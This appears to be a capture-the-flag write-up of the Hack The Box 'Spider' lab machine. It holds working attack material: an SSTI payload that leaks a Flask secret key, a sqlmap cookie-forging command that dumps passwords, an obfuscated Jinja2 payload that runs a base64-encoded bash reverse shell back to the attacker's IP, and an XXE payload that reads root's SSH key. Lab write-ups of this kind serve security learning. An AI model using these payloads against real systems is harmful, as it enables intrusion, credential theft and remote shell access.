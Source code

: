 
---
permalink: /spider
layout: post
author: InfoSecJack & chivato
title: Writeup
date: 2021-10-24
publish: True
description: "Spider is a hard difficulty Linux machine which focuses on web-based injection attacks. Server-Side Template Injection (SSTI) is first exploited to read the config object of a Flask application and obtain the SECRET_KEY string, which can be used to sign and verify session cookies. An SQL injection attack carried through forged cookies allows attackers to retrieve login data from the database and gain administrative access to the web application. A second SSTI vulnerability is found in a support ticket portal. Exploiting this vulnerability, which requires bypassing a Web Application Firewall, results in arbitrary code execution and ultimately in an interactive shell on the system. Privileges can then be escalated by exploiting an XML External Entity (XXE) injection vulnerability in a beta web application running locally
"

---
# Enumeration

## Nmap 

```bash
sudo nmap -sC -sV -oA nmap/spider 10.10.10.243

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 28:f1:61:28:01:63:29:6d:c5:03:6d:a9:f0:b0:66:61 (RSA)
|   256 3a:15:8c:cc:66:f4:9d:cb:ed:8a:1f:f9:d7:ab:d1:cc (ECDSA)
|_  256 a6:d4:0c:8e:5b:aa:3f:93:74:d6:a8:08:c9:52:39:09 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://spider.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.81 seconds

```

Add spider.htb to /etc/hosts file

![](/Writeups/Spider/Pasted image 20211023205658.png)

Registering new user

![](/Writeups/Spider/Pasted image 20211023210019.png)


![](/Writeups/Spider/Pasted image 20211023210948.png)

Created user as {{config}} for SSTI, because config exist for every server

![](/Writeups/Spider/Pasted image 20211023211119.png)

got details of the file config

![](/Writeups/Spider/Pasted image 20211023211149.png)

## config

```php

<Config {'ENV': 'production'
 'DEBUG': False
 'TESTING': False
 'PROPAGATE_EXCEPTIONS': None
 'PRESERVE_CONTEXT_ON_EXCEPTION': None
 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31)
 'USE_X_SENDFILE': False
 'SERVER_NAME': None
 'APPLICATION_ROOT': '/'
 'SESSION_COOKIE_NAME': 'session'
 'SESSION_COOKIE_DOMAIN': False
 'SESSION_COOKIE_PATH': None
 'SESSION_COOKIE_HTTPONLY': True
 'SESSION_COOKIE_SECURE': False
 'SESSION_COOKIE_SAMESITE': None
 'SESSION_REFRESH_EACH_REQUEST': True
 'MAX_CONTENT_LENGTH': None
 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0
 43200)
 'TRAP_BAD_REQUEST_ERRORS': None
 'TRAP_HTTP_EXCEPTIONS': False
 'EXPLAIN_TEMPLATE_LOADING': False
 'PREFERRED_URL_SCHEME': 'http'
 'JSON_AS_ASCII': True
 'JSON_SORT_KEYS': True
 'JSONIFY_PRETTYPRINT_REGULAR': False
 'JSONIFY_MIMETYPE': 'application/json'
 'TEMPLATES_AUTO_RELOAD': None
 'MAX_COOKIE_SIZE': 4093
 'RATELIMIT_ENABLED': True
 'RATELIMIT_DEFAULTS_PER_METHOD': False
 'RATELIMIT_SWALLOW_ERRORS': False
 'RATELIMIT_HEADERS_ENABLED': False
 'RATELIMIT_STORAGE_URL': 'memory://'
 'RATELIMIT_STRATEGY': 'fixed-window'
 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset'
 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining'
 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit'
 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After'
 'UPLOAD_FOLDER': 'static/uploads'}>
```

On googling parameters we can find something related to flask.

## Flask Unsigned cookie

Unsigning cookie using flask

https://book.hacktricks.xyz/pentesting/pentesting-web/flask#flask-unsign

Sql-inject with flask_unsign.

https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#eval

```bash

sqlmap http://spider.htb --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --dump

```


```sql
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
| 2  | 05c31009-d105-41bd-bf71-d1bdacf5a2ee | aaa        | 12345           |
| 3  | 539619f4-cf01-451f-8b1e-f3c392cec0b6 | {{7*7}}    | 12345           |
| 4  | 05b87d4f-91cd-448a-8db3-15783f9526dc | {{config}} | 12345           |
| 5  | 6bee5cc6-928a-4371-8d9b-007c2b760243 | nullbyte   | Qwertyasd$      |
| 6  | d694bef9-793b-4cb2-95d8-9a449243cd1e | {{config}} | 123             |
| 7  | 85085523-c4c7-4a5d-887a-69f2216ec268 | {{config}} | fDtyA4W5q7T22c8 |
+----+--------------------------------------+------------+-----------------+


```

# Admin

Signing in as admin using chiv's uuid and password obtained from sqlmap.

![](/Writeups/Spider/Pasted image 20211023214517.png)

After loggin in we can find a unfinished support portal.

![](/Writeups/Spider/Pasted image 20211023214637.png)

![](/Writeups/Spider/Pasted image 20211023214926.png)

After a while trail and error found bad characters which are blocking by WAF. Executing [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---filter-bypass)after escaping bad character.



```python

\{% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("sleep 2")|attr("read")() %}

```

![](/Writeups/Spider/Pasted image 20211023220907.png)


Got a reverse shell

```bash

{% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("echo+YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjEzOC85MDAxIDA%2bJjEK+|+base64+-d+|+bash")|attr("read")() %}
```

![](/Writeups/Spider/Pasted image 20211024081248.png)

tty shell

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo;fg
Enter Enter
export TERM=xterm


```

Copy id_rsa of chiv

![](/Writeups/Spider/Pasted image 20211024081815.png)

# User

![](/Writeups/Spider/Pasted image 20211024081935.png)

another server run in port 8080

![](/Writeups/Spider/Pasted image 20211024082027.png)

we can forward the port to our machine using following commands
```bash

shift +~+C
-L 8081:127.0.0.1:8080

```

![](/Writeups/Spider/Pasted image 20211024082358.png)

![](/Writeups/Spider/Pasted image 20211024082508.png)

Intersecpt the request in burpsuite and replace data in request with follow to get id_rsa 

```xml

username=%26username%3b&version=1.0.0--><!DOCTYPE+foo+[<!ENTITY+username+SYSTEM+"/root/.ssh/id_rsa">+]><!--

```

# Root

![](/Writeups/Spider/Pasted image 20211024090436.png)

copy id_rsa and change permission 

```bash

chmod 600 id_rsa

```

![](/Writeups/Spider/Pasted image 20211024093237.png)
